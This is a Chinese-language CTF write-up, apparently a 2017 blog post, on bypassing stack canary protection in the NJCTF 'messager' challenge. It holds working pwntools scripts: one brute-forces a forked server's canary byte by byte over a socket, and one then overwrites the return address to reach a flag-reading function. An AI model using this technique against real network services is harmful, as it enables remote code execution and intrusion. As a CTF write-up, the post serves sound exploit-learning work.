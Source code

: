 title: 栈溢出之绕过CANARY保护
date: 2017-03-14 16:37:50
tags: bin
---

上周从NJCTF的其中一题messager，学到了绕CANARY保护的一种姿势

<!--more-->

bin我拖下来了: <https://github.com/Hcamael/CTF_repo/tree/master/NJCTF%202017/pwn150(messager)>

其实很简单的一个思路.

CANARY保护机制的原理，是在一个函数入口处从fs，内存的某个地方获取一个值，可以想象成是cookie，存到栈中，在程序要返回的时候，判断栈中的这个cookie是否正确，如果不正确则判断为栈溢出

因为cookie是从内存的一个未知的地方获取到的，值是未知，当我们进行栈溢出攻击的时候，控制ret跳转的地址，肯定是会把cookie给覆盖掉，导致程序判断为栈溢出，程序退出，攻击失败

这题的问题出在fork函数，该题是自己写了一个socket, 接受到请求后fork出一个子进程，和用户做交互，父进程继续监听端口

fork函数的作用相当于自我复制，每一次复制出来的程序，内存布局都是一样的，当然cookie值也是一样的

这样就存在一个可能，我们可以一个byte一个byte的对cookie进行爆破，如果程序跪了则表明cookie错误，如果程序正常返回则表示cookie正确，我们通过栈溢出对cookie的最低位开始逐个覆盖，爆破出该位的正确cookie值

我的爆破脚本:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

# blasting canary
canary = "\x00"
padding = "a"*104

for x in xrange(7):
	for y in xrange(256):
		p = remote("127.0.0.1", 5555)
		print p.recv()
		p.send(padding+canary+chr(y))
		try:
			info = p.recv()
			print info
		except:
			p.close()
			continue
		p.close()
		break
	canary += chr(y)

print "success get blasting!"
print canary.encode('hex')
```

这里还有个知识点，上面代码中我只爆破了7 byte，因为最低位的byte一定是`\x00`，这为了防止其他漏洞会导致栈信息泄露，有个`\x00`cookie后面的数据就不会被泄露出来了.

得到cookie值了后，就是很简单的栈溢出了，栈溢出的时候把爆破出来的cookie值覆盖掉栈中的cookie(也就相当于cookie不变)，从而绕过CANARY保护机制.

附之后的利用脚本:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

canary = "\x00\x10\xea\x4c\xa1\x11\xc4\xb8"
p = remote("127.0.0.1", 5555)
p.recv()

ret = 0x400b76
ret2 = 0x400bc6

p.send(padding+canary+"a"*8+p64(ret)+p64(ret2))
print p.recv()
```

上面代码中`ret`指向的函数是一个读取flag的函数，`ret2`为输出读入的信息，bin就有获取flag的函数了，所以不需要再麻烦的去跑libc了, 如果是要getshell的话，则还需要去跑下libc

